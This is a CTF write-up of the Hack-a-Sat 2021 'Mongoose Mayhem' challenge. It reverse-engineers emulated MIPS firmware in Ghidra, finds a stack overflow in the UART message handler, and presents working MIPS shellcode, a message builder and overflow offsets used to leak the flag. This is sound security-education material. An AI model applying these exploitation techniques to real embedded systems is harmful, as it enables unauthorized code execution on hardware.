






# Mongoose Mayhem
### Rapid Unplanned Disassembly

_197 points, 14 solves_

Active ADDVulcan players:
  - dtechshield
  - miek
  - kandi3kan3
  - supersat

## Challenge Description

qemu? qemu who?

### Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra227884charlie2:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

### Connecting

Connect to the challenge on:

```
elite-poet.satellitesabove.me:5012
```

Using netcat, you might run:

```
nc elite-poet.satellitesabove.me 5012
```

### Files

You'll need these files to solve the challenge.

  - [vmips](./files/vmips)
    (https://static.2021.hackasat.com/17tbhbaqbju7900jfflq24um8w4w)
  - [README.txt](./files/README.txt)
    (https://static.2021.hackasat.com/eh5w0oxmxtqjuo700cgych4e59vx)
  - [firmware.rom](./files/firmware.rom)
    (https://static.2021.hackasat.com/fbz3mgfbweeowophzlvbq95s7unh)

### Solving

Your team's flag for this challenge will look something like:

```
flag{sierra227884charlie2:___a bunch of unguessable stuff___}
```

## Writeup by kandi3kan3

### Initial Analysis

This challenge used the `vmips` emulator, which was actually an old friend from
last year's qualifiers. This gave us a slight boost on getting up to speed with
this challenge, though I'll try to provide some context for anyone unfamiliar.

The first steps were simple - we ran the challenge binary in the provided
emulator and dtechshield noticed that there was a `Logging.txt` file being
generated with some debugging information:

```
DEBUG::starting up

DEBUG::Enabling timer
```

dtechshield also began looking at a
[Mongoose-V datasheet](https://web.archive.org/web/20060321213756/http://www.synova.com/proc/MongooseV.pdf),
which unfortunately turned out to be unhelpful - the emulated peripherals were
not at all the same as the ones documented in the datasheet.

It wasn't too long until we dove straight into RE with Ghidra.

A quick aside: I was running Arch Linux under VirtualBox during the CTF and had
issues (segfaults) trying to run `vmips`. I ended up running it under Docker
with an Ubuntu 20.04 image. If you want to run our solution under Docker, I've
provided a `.scuba.yml` file for [scuba](https://github.com/JonathonReinhart/scuba)
that will help set up a Docker environment with all the necessary dependencies.
You can run `scuba solve` to run `solve.py` under Ubuntu 20.04, or `scuba bash`
for an interactive shell.

### Mapping Memory

The target processor was baremetal MIPS, which uses memory-mapped IO to talk
to hardware peripherals. As suggested by the [README](./files/README.txt), we
took a look at how `vmips` set up memory:

```
Little-Endian host processor detected.
Mapping ROM image (firmware.rom, 6091 words) to physical address 0x1fc00000
Mapping RAM module (host=0x7f642367b010, 2929KB) to physical address 0x0
Mapping Timer device to physical address 0x01010000
Connected IRQ7 to the Timer device
Mapping Sensor device to physical address 0x02100000
Mapping Flag Device to physical address 0x02008000
Mapping Synova UART to physical address 0x02000000
Connected IRQ3 to the Synova UART
Mapping Synova UART to physical address 0x02000010
Connected IRQ4 to the Synova UART
Connected IRQ5 to the Synova UART
Hit Ctrl-\ to halt machine, Ctrl-_ for a debug prompt.

*************RESET*************

<binary data>
```

We now know that memory looks something like this:

| Device    | Physical Address  |
| --------- | ----------------- |
| RAM       |     `0x00000000`  |
| Timer     |     `0x01010000`  |
| UART 0    |     `0x02000000`  |
| UART 1    |     `0x02000010`  |
| **Flag**  |     `0x02008000`  |
| Sensor    |     `0x02100000`  |
| ROM       |     `0x1fc00000`  |

Using this information, we can load our binary into a disassembler like Ghidra
and have it correctly resolve references to memory... almost.

On bare-metal platforms, code usually starts executing from the reset vector.
This is usually an address mapped to persistent memory which contains either a
small block of code to execute or a pointer to code.

On 32-bit MIPS, the reset vector is located at `0xbfc00000`, not `0x1fc00000`
at the start of our firmware image. This is because, even at boot, MIPS uses
virtual memory! There are two memory mappings called `kseg0` and `kseg1` that
directly map to the physical addresses `vmips` prints out.
The main difference between the two is that `kseg1` accesses memory directly,
while `kseg0` accesses memory through the cache. At boot, the MMU may not be
set up properly for cached access, so code usually runs from `kseg1`.
Code that talks to hardware peripherals is also likely to use `kseg1` to avoid
having to manually flush the cache to talk to them.



Taking this into consideration, we can map our *physical* addresses into the
*virtual* addresses in `kseg1` that the code is going to use:

| Device    | Physical Address  | Virtual Address (kseg1)   |
| --------- | ----------------- | ------------------------- |
| RAM       | `0x00000000`      | `0xa0000000`              |
| Timer     | `0x01010000`      | `0xa1010000`              |
| UART 0    | `0x02000000`      | `0xa2000000`              |
| UART 1    | `0x02000010`      | `0xa2000010`              |
| **Flag**  | `0x02008000`      | `0xa2008000`              |
| Sensor    | `0x02100000`      | `0xa2100000`              |
| ROM       | `0x1fc00000`      | `0xbfc00000`              |

### Loading into Ghidra

`vmips` already told us that this is a little-endian processor, so we loaded
the file into Ghidra with the `MIPS:LE:32:default:default` language:



**Before analyzing** the binary, we want to set up our memory maps so that
Ghidra's autoanalysis can pick up on cross-references.
Clicking Window -> Memory Map and using the Home button allows us to rebase
the ROM image to `0xbfc00000`, after which we can start adding our other
blocks of memory:



After setting up the memory map, we can hit `D` to start disassembling at
`0xbfc00000`, then hit `A` to perform autoanalysis.

The analyzer picks up some strings, but no xrefs... well, that's annoying!
There are also a lot of references to memory in the `0xa018...` region.
It turns out that's because the data isn't referenced directly from the ROM
image at runtime. Early in boot, there's a snippet of code that copies the
"data segment" from `0xbfc059ac` to `0xa0180000`:

```
bfc004d8 18 a0 1c 3c       lui          gp,0xa018
bfc004dc 00 00 9c 27       addiu        gp=>_gp_1,gp,0x0                                         = ??
bfc004e0 c0 bf 09 3c       lui          t1,0xbfc0
bfc004e4 ac 59 29 25       addiu        t1,t1,0x59ac
bfc004e8 c0 bf 0a 3c       lui          t2,0xbfc0
bfc004ec 2c 5f 4a 25       addiu        t2,t2,0x5f2c
bfc004f0 25 58 80 03       or           t3,gp,zero
                     LAB_bfc004f4                                            XREF[1]:       bfc00508(j)
bfc004f4 00 00 2c 8d       lw           t4,0x0(t1)=>DAT_bfc059ac
bfc004f8 00 00 00 00       nop
bfc004fc 00 00 6c ad       sw           t4,0x0(t3)=>_gp_1                                        = ??
bfc00500 04 00 29 25       addiu        t1,t1,0x4
bfc00504 04 00 6b 25       addiu        t3,t3,0x4
bfc00508 fa ff 2a 15       bne          t1,t2,LAB_bfc004f4
bfc0050c 00 00 00 00       _nop
```

In C, this roughly translates to:

```c
int* gp = (int*)0xa0180000;
int* start = (int*)0xbfc059ac;
int* end = (int*)0xbfc05f2c;

int* src = start;
int* dst = gp;
while (src != end) {
    *dst++ = *src++;
}
```

Alright, one more time! Undoing autoanalysis and disassembly to give the
analyzers a fresh start, we go back to add one more memory mapping:



This time, we get valid xrefs to our strings and other data!

### Reverse Engineering

We went to work getting an idea of what the binary did.
Luckily, it wasn't terribly complicated.

#### libc and `printf`
Using those xrefs, we were able to quickly identify a few basic libc functions,
like `mem*`, `str*`, `malloc`, and `printf`.

`printf` was responsible for the messages that showed up in `Logging.txt`.
I followed from `printf` to `putchar`, which showed that `printf` used UART 0.
It also gave a great example of how to write to the Synova UART peripheral,
which would cause me frustration later on...

#### `main` loop
From the reset vector, we could follow through to the `main` function at
`0xbfc0578c`, which is a simple loop that handles timer ticks and messages.

#### Interrupt Handling
supersat found that interrupts were handled by the function at 0xbfc00180.
From the startup messages, we know that interrupts 4 and 5 are attached to
the UART1 peripheral, and interrupt 7 is attached to the timer peripheral.
This function checks the Cause register to determine which interrupt fired
and dispatches to an appropriate handler function:

```c
    if (Cause == 0) break;
    if ((Cause & 0x8000) == 0) {
      if ((Cause & 0x1000) == 0) {
        if ((Cause & 0x2000) == 0) break;
        on_uart_tx_ready();
      }
      else {
        on_uart_rx_ready();
      }
    }
    else {
      on_timer();
    }
```



The timer interrupt handler simply resets the timer and sets the global flag
checked in `main`:

```c
void on_timer(void)
{
  write_volatile_4(DAT_a101000c,3);
  g_timer_fired = 1;
  return;
}
```

The UART1 RX interrupt handler handles message framing and receiving.
It looks for a sync pattern `a5 5a`, then copies the remaining 0x3e bytes into
a global buffer, for a total message length of 0x40 bytes.
Ghidra's decompiler is a bit confused here, but the code calculates a checksum
over those 0x3e bytes and ensures that all of the bytes add up to 0xff.

If the checksum is valid, Ghidra sets a flag to let the `main` loop know it
should process the message data, and to let itself know not to receive any
more data until the main loop clears the flag after processing.

```c
void on_uart_rx_ready(void)
{
  astruct *paVar1;
  int iVar2;
  int iVar3;
  short checksum;

  paVar1 = g_state;
  iVar2 = *(int *)PTR_UART1_RXD_a0180488;
  if (g_state->message_ready != 1) {
    if (g_state->message_found_sync0 == 0) {
      if (iVar2 == 0xa5) {
        g_state->message_found_sync0 = 1;
      }
    }
    else {
      if (g_state->message_found_sync1 == 0) {
        if (iVar2 == 0x5a) {
          g_state->message_len = 0;
          g_state->message_found_sync1 = 1;
        }
        else {
          if (iVar2 != 0xa5) {
            g_state->message_found_sync0 = 0;
          }
        }
      }
      else {
        iVar3 = g_state->message_len;
        g_state->message_len = iVar3 + 1;
        paVar1->message[iVar3] = (byte)iVar2;
        if (g_state->message_len == 0x3e) {
          g_state->message_found_sync0 = 0;
          g_state->message_found_sync1 = 0;
          if (((short)iVar2 + checksum & 0xffU) == 0xff) {
            g_state->message_ready = 1;
          }
          else {
            debug(1,s_checksum_failed_a01804d0);
          }
        }
      }
    }
  }
  return;
}
```

#### Timer Tick
supersat found that on every timer tick, the function at `0xbfc00330` is called.
That function does some funky math with `double` values, then `memcpy`s two
`doubles` into memory at `0xa3000024`. We haven't seen anything about that
memory space, but it seems to be a hardware peripheral - the code spins on a
memory-mapped register (some kind of ready flag?) and clears that same register
once it's done `memcpy`ing the data:

```c
  do {
    cVar3 = read_volatile_1(DAT_a3000020._0_1_);
  } while (cVar3 == '\x01');
  memcpy(&DAT_a3000024,&local_20,8);
  memcpy(&UNK_a300002c,&local_28,8);
  write_volatile_1(DAT_a3000020._0_1_,0);
```

#### Message Processing

The function at `0xbfc04ecc` is responsible for processing received messages.
We found that the high 4 bits of the first byte were a message type, the low
4 bits had a message-dependent meaning (usually an offset), and the data
payload started 2 bytes in - the second byte of the message appeared unused.

| Type | Action                                                             |
| ----:| ------------------------------------------------------------------ |
| `0`  | Invalid (prints "bad messagetype")                                 |
| `1`  | Enable timer (enables IRQ7, "Enabling timer" debug message)        |
| `2`  | Disable timer (disables IRQ7, clears a timer peripheral register)  |
| `3`  | Write `double`s to 0xa018590 ("bad coefficient" debug message)     |
| `4`  | Write a `double` to 0xa0180600                                     |
| `5`  | Write a `double` to an array at 0xa0180608                         |
| `6`  | No Operation                                                       |
| `7`  | No Operation                                                       |

### Bug Hunting

Now that we have an idea of how the code works, we need to figure out how to
exploit it. Our goal is to read the flag device, but we haven't managed to find
any xrefs to it, so we probably need to gain code execution to do it ourselves.

Our primary interface to the device seems to be the UART. We write a quick
script up to send it messages in the format it expects:

```py
def make_msg(payload):
    pad = b'\x00' * (0x40 - len(payload) - 3)
    checksum = bytes([0xff - (sum(payload) & 0xff)])
    msg = b'\xa5\x5a' + payload + checksum + pad
    return msg
```

It isn't long until supersat produces a crash with message type 5:



He quickly finds some useful
[debug flags](http://www.dgate.org/vmips/doc/vmips.html#Debugging) for vmips
and we manage to get a register dump with `-o haltdumpcpu`.

#### Root Cause

The low nibble of message type 5 is used as an index into a global array of
`double` values at `0xa0180008`. The payload is a single `double` value that
gets written into that array.

Before writing to the array, the value to write is `memcpy`'d out of the message
buffer and into a temporary stack variable. The issue is that the `memcpy` also
uses the index to offset the stack variable, which means any non-zero index will
overflow something else on the stack.

With the help of some paper to draw out a stack frame and vmips' debug flags.
we found that an offset of either `0x8` or `0xc` (command `58` or `5c`) would
let us overwrite the return address on the stack and take control of execution.

### Exploitation

We had a bug - now we just needed to exploit it.
To do that, we wanted a place to upload some shellcode.

I found that message type 3 was useful for that - it can copy 7 `double` values
to memory. Similar to message type 5, the low nibble is used as an index, but
this time around we're limited to indexes 0 and 1.

Still, this means we can write 56 bytes to each of `0xa0180590` (index 0) and
`0xa01805c8` (index 1), giving us a contiguous 112 bytes of memory to write to.
That gave us room for 28 MIPS instructions, which we hoped would be enough.

There were a few restrictions - each 8 byte chunk of shellcode would be treated
as a double and validated. We couldn't match either of these bit patterns:

  - Negative numbers:

    `........ ........ ........ ........ ........ ........ ........ 1.......`

  - NaNs and infinities:

    `........ ........ ........ ........ ........ ........ 11111111 .1111111`

Luckily, this wasn't too difficult to deal with.
The second pattern was uncommon, and if we ended up with the high bit set on the
8th byte, we could easily insert an extra nop (`00 00 00 00`) to shift it over.

I wrote a few different shellcode payloads until I found one that worked.
Rather than explicitly checking the shellcode against the bad bit patterns, I
took a faster and sloppier approach:

  1. Write assembly directly into the exploit script.
  2. Run the script, which:
       - Assembled the shellcode with [Keystone](https://www.keystone-engine.org/).
       - Ran the emulator with `-o memdump`.
       - Tried to send the payload and jumped to it.
  3. If `vmips` didn't crash, send it SIGSTOP with `killall -SIGSTOP vmips`.
     I had to do this because I was running it through pwntools in Python, and
     Python got the SIGSTOP if I pressed `Ctrl+\` as the emulator asked me to.
  4. Examine `hexdump -C memdump.bin` starting at offset 0x180590.
  5. If not all of the shellcode got written, insert a `nop` after the last
     instruction that got successfully written.
  6. Repeat.

I found myself slightly annoyed with some quirks of Keystone:
  - It didn't let me control what went in a branch delay slot, instead
    deciding to assemble every branch into a branch and a `nop`.

    I was worried that this could help me run out of space, but luckily I didn't
    have any trouble making the shellcode fit, even with extra NOPs for padding.

  - I had difficulty inlining comments.

    I'm guessing I just didn't know what comment character it expected
    (I tried two or three but then couldn't be bothered to try more), but it
    would be nice if that were documented clearly somewhere...

Eventually I was getting code to execute and was down to debugging it.
Without access to the interactive debugger, I mostly inserted `break`
instructions to try to halt the emulator at key points.

The first iteration of my shellcode tried to write to UART1 in the same way
that `putchar` wrote to UART0. I was confident this should work, but I always
seemed to get stuck in an infinite loop waiting for the flag on UART1_TXCTL.

```
; a0 = UART1_TXCTL  = 0xa2000018
; a1 = UART1_TXDATA = 0xa200001c
; a2 = FLAG_BEGIN   = 0xa2008000
; a3 = FLAG_END     = 0xa2008100
    lui     $t0, 0xa200
    addiu   $a0, $t0, 0x0018
    addiu   $a1, $t0, 0x001c
    addiu   $a2, $t0, 0x8000
    addiu   $a3, $t0, 0x8100

    add     $t0, $a2, $zero
loop:
    lw      $t1, ($a0)
    nop
    andi    $t1, $t1, 0x0002
    beq     $t1, $0, loop

    nop
    lbu     $t1, ($t0)
    addiu   $t0, $t0, 1
    sw      $t1, ($a1)
    bne     $t0, $a3, loop

    break
```

When that didn't work, I decided to try to call an unused function in the
firmware that seemed to write to UART1 using interrupts instead:

```
; t0 = uart_tx func = 0xbfc04988
; t1 = p_state      = 0xa0180580
; a0 = state        = *p_state
; a1 = flag         = 0xa2008000
; a2 = flag_len     = 0x800
    lui     $t0, 0xbfc0
    addiu   $t0, 0x4988
    nop
    lui     $t1, 0xa018
    lw      $a0, 0x580($t1)
    lui     $a1, 0xa200
    addiu   $a1, 0x8000
    li      $a2, 0x80

    jal     $t0
    nop

loop:
    j       loop
```

This didn't work either. Frustrated, I ended up deciding to get some much-needed
rest, but not before sharing a thought that would save me in the morning:


After waking up, I made the connection.
This whole time, I had been using pwntools with debug logs printing the data
it had received from the emulator. 16 bytes at a time. At a regular interval.

This was the data we were getting at each timer tick.
And we weren't getting it from UART1, we were getting it from the good old
mystery peripheral at 0xa3000020!

Replicating the logic at 0xbfc056f4, I wrote the final exploit shellcode.
This shellcode tries to copy 256 bytes from the flag device, 16 bytes at a time:

```
; Copy data like the timer handler does at 0xbfc056f4
; Wait for the CTL register to become non-1, then memcpy and write 0.
;
; s0 = memcpy       = 0xbfc04078
; s1 = UART_CTL     = 0xa3000020
; s2 = UART_DATA    = 0xa3000024
; s3 = FLAG_BEGIN   = 0xa2008000
; s4 = FLAG_END     = 0xa2008100
; s5 = #1
; s6 = src
    lui     $t0, 0xbfc0
    addiu   $s0, $t0, 0x4078
    lui     $t0, 0xa300
    addiu   $s1, $t0, 0x0020
    addiu   $s2, $t0, 0x0024
    lui     $t0, 0xa200
    addiu   $s3, $t0, 0x8000
    addiu   $s4, $t0, 0x8100
    addi    $s5, $0, 1

    addu    $s6, $s3, $zero
loop:
    lw      $t0, ($s1)
    nop
    beq     $t0, $s5, loop

    addu    $a0, $s2, $zero
    addu    $a1, $s6, $zero
    addiu   $a2, $zero, 16
    addu    $s6, $s6, $a2

    jal     $s0
    sw      $s5, ($s1)
    bne     $s6, $s4, loop

    break
```

### Wrapping it Up

To put it all together, our final exploit script does the following:

  1. Send message `20`.
     This stops the timer so we don't get extra data mixed in with the flag.
  2. Assemble and write shellcode to `0xa0180590` with messages `30` and `31`.
  3. Redirect execution by overflowing the stack with message `5c`.

Switching out the `process` for a `remote` in `solve.py` and running it:

```
kan3@a5f539fe0401:~/mongoose-mayhem$ ./solve.py
[+] Opening connection to elite-poet.satellitesabove.me on port 5012: Done
[*] Waiting for device
[*] Stopping data flow
[*] Uploading shellcode
[*] Jumping to shellcode
[+] Receiving all data: Done (240B)
[*] Closed connection to elite-poet.satellitesabove.me port 5012
[*] Got flag!
flag{sierra227884charlie2:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
